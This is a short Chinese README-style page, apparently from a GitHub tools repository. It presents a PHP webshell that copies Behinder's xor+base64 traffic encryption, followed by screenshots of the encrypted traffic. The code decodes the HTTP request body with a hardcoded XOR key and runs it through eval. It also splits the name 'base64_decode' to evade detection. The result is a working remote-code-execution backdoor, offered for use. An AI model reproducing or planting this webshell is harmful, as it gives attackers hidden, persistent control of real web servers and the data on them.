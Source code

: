 # 2023.8.12

1. 参考冰蝎xor+base64加密方式。来加密流量



### webshell

```
<?php

function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
eval(Decrypt(file_get_contents("php://input")));

?>
```



### 加密效果

![image-20230812222228181]([https://github.com/wy876/tools/blob/master/img/image-20230812222228181.png?raw=true](https://github.com/wy876/tools/blob/master/img/image-20230812222228181.png?raw=true)

![image-20230812222254773](.\img\image-20230812222254773.png)



